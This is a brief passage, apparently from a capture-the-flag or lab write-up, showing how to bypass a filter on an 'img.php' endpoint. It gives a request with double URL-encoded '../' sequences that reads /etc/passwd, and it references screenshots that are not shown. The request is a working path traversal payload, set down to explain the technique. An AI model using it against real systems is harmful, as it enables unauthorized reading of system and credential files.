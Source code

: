 ![picture 2](/assets/images/72d9df0f986a225a09cbe902f4467c779d1a7cc7997b7ddef608b5c51c6c103c.png)  

There is another filter on `/etc/passwd` but we can bypass that to!

Request: `/includes/img.php?path=c%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/test/%252e%252e%252f/passwd`

![picture 3](/assets/images/e0351c3e43930dcc6ce73088a6e410fe93e91bde51f0f1931927233d9ca3bdb5.png)  
